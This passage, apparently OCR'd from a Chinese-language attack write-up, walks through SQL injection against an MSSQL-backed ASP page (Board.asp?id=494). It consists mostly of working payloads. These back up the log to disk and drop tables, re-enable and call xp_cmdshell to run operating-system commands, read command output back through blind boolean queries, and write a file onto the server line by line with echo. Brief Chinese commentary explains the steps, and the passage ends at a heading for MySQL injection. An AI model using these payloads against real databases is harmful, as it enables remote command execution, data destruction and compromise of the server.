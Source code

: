 Board.asp?id=494;declare @a sysname,@s nvarchar(4000) select @a=db_name

(),@s=0×64003A005C003100320033002E00610073007000 backup log @a to disk=@s with init,no_truncate-

第 五 步

Board.asp?id=494;Drop table [shit_tmp]-

【执行命令】

;CREATE TABLE [X_2894]([id] int NOT NULL IDENTITY (1,1), [ResultTxt] nvarchar(4000) NULL);

insert into [X_2894](ResultTxt) exec master.dbo.xp_cmdshell &amp;apos;Dir C:\&amp;apos;;

insert into [X_2894] values (&amp;apos;g_over&amp;apos;);exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

And (Select Top 1 CASE WHEN ResultTxt is Null then char(124) else ResultTxt+char(124) End from (Select Top 1 id,ResultTxt from [X_2894] order by [id]) T order by [id] desc)&gt;0

……

And (Select Top 1 CASE WHEN ResultTxt is Null then char(124) else ResultTxt+char(124) End from (Select Top 23 id,ResultTxt from [X_2894] order by [id]) T order by [id] desc)&gt;0

g_over这个是专门插入用来作为命令回显结束的标志。

;DROP TABLE [X_2894];-

【本地文件上传】

假设上传到服务器c:\down.vbs位置

;exec master.dbo.xp_cmdshell &amp;apos;del C:\down.vbs&amp;apos;-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo [DeleteOnCopy] &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo Owner=Administrator &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo Personalized=5 &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

;exec master.dbo.xp_cmdshell &amp;apos;ecHo PersonalizedName=My Documents &gt;&gt; C:\down.vbs&amp;apos;;exec master.dbo.sp_dropextendedproc &amp;apos;xp_cmdshell&amp;apos;-

;use master dbcc addextendedproc(&amp;apos;xp_cmdshell&amp;apos;,&amp;apos;xplog70.dll&amp;apos;)-

总结来说就是调用xp_cmdshell执行echo 一句句的写入文件。

这次分析算是告一段落，不过还有mysql,access,oracle,db2,infomix……….等待探索。

#### SQL inject Mysql {#sql-inject-mysql}
